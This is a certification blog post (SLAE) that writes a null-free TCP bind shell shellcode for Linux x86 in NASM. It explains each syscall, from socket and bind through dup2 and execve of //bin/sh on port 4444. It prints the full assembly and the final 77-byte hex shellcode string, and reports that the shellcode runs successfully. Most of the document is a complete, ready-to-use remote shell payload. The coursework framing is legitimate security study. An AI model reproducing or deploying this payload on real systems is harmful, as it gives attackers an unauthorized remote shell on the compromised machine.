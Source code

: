 # 1. TCP Bind Shell (linux/x86)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create a TCP bind shell shellcode for Linux on the x86 architecture. The goal is to avoid null bytes while making the payload as small as possible.

Additionally, it should be easy to change the listening port.

## Solution

The solution is based on the [linux/x86/shell_bind_tcp](https://github.com/rapid7/metasploit-framework/blob/master/modules/payloads/singles/linux/x86/shell_bind_tcp.rb) payload from the Metasploit Framework and written in NASM.

The listening port is defined at the top of the NASM source:

```nasm
global _start

port equ 0x5c11             ; port = 4444 (big endian)
```

An IPv4/TCP socket is created using the [socket](https://man7.org/linux/man-pages/man2/socket.2.html) socket system call. Socket system calls are invoked using the [socketcall](https://man7.org/linux/man-pages/man2/socketcall.2.html) system call:

```nasm
section .text

_start:
    ; int socketcall(int call, unsigned long *args): syscall 0x66
    ; int socket(int domain, int type, int protocol): socketcall 0x1
    ;   s = socket(AF_INET = 2, SOCK_STREAM = 1, IPPROTO_IP = 0)
    xor ebx, ebx            ; ebx = 0
    mul ebx                 ; eax = 0, edx = 0
    push ebx                ; push domain = IPPROTO_IP = 0
    inc ebx                 ; socketcall = 1
    push ebx                ; push type = SOCK_STREAM = 1
    push 0x2                ; push protocol = AF_INET = 2
    mov ecx, esp            ; set socketcall args
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The port is bound to the socket on 0.0.0.0 using the [bind](https://man7.org/linux/man-pages/man2/bind.2.html) socket system call:

```nasm
    ; struct sockaddr_in { sa_family_t sin_family; in_port_t sin_port; uint32_t s_addr }
    ;   addr_in = { (WORD) AF_INET = 2, (WORD) [PORT], INADDR_ANY = 0 }
    ; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen): socketcall 0x2
    ;   bind(s, &addr_in, sizeof(sockaddr) = 16)
    pop ebx                 ; socketcall = 2
    pop esi                 ; align stack so that ecx = &addr_in
    push edx                ; push s_addr = INADDR_ANY = 0
    push word port          ; push sin_port = PORT
    push bx                 ; push sin_family = AF_INET = 2
    push 0x10               ; push addrlen = sizeof(sockaddr_in) = 16
    push ecx                ; push addr = &addr_in
    push eax                ; push sockfd = s
    mov ecx, esp            ; set socketcall args
    lea eax, [edx + 0x66]   ; syscall = 102
    int 0x80                ; perform syscall
```

The socket is marked as a listening socket using the [listen](https://man7.org/linux/man-pages/man2/listen.2.html) socket system call:

```nasm
    ; int listen(int sockfd, int backlog): socketcall 0x4
    ;   listen(s, 0)
    mov [ecx + 4], eax      ; set backlog = 0 (eax = 0 from successful bind return and sockfd already set)
    mov bl, 0x4             ; socketcall = 4
    mov al, 0x66            ; syscall = 102
    int 0x80                ; perform syscall
```

The shellcode then waits for an incoming connection using the [accept](https://man7.org/linux/man-pages/man2/accept.2.html) socket system call. Note that the *addrlen* argument is set to NULL, so the value of *addrlen* does not matter:

```nasm
    ; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen): socketcall 0x5
    ;   client = accept(s, 0, whatever)
    inc ebx                 ; socketcall = 5 (all arguments already set)
    mov al, 0x66            ; syscall = 102 (eax = 0 from successful listen return)
    int 0x80                ; perform syscall
```

Stdin, stdout, and stderr are redirected to the new connected socket using the [dup2](https://man7.org/linux/man-pages/man2/dup.2.html) system call:

```nasm
    ; int dup2(int oldfd, int newfd): syscall 0x3f
    ;   dup2(client, 0..2)
    xchg eax, ebx           ; oldfd = client, eax = 5
    lea ecx, [edx + 0x3]    ; newfd = 3
dup_loop:
    dec ecx                 ; decrement newfd
    mov al, 0x3f            ; syscall = 63 (eax = 5 first iteration and dup2 returns stderr = 2 / stdout = 1)
    int 0x80                ; perform syscall
    jnz dup_loop            ; loop until newfd = 0
```

Finally, a shell is spawned using the [execve](https://man7.org/linux/man-pages/man2/execve.2.html) system call. Note that the *argv* and *envp* arguments can be set to NULL when they are not used by the executed program:

```nasm
    ; int execve(const char *pathname, char *const argv[], char *const envp[]): syscall 0xb
    ;   execve("//bin/sh", 0, 0)
    pop esi                 ; put null byte on top of stack
    push 0x68732f6e         ; push "n/sh" reversed
    push 0x69622f2f         ; push "//bi" reversed
    mov ebx, esp            ; pathname = "//bin/sh" (argv and envp already set)
    mov al, 0xb             ; syscall = 11 (eax = 0 from dup2 returning stdin)
    int 0x80                ; perform syscall
```

The complete source code can be found here: [shell_bind.nasm](https://github.com/SpacePlant/slae32/blob/main/shell_bind.nasm)

## Results

The assembled shellcode is 77 bytes and contains no null bytes. The MSF version is 78 bytes, contains a null byte, and makes some assumptions about the returned file descriptors.

```sh
$ shellcode=$(for i in $(objdump -d shell_bind | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x66\x68\x11\x5c\x66\x53\x6a\x10\x51\x50\x89\xe1\x8d\x42\x66\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x8d\x4a\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x5e\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
77
```

The shellcode is executed successfully using the C template:

![Bind shell executed](images/shell_bind.png)

![Bind shell established](images/shell_bind_2.png)
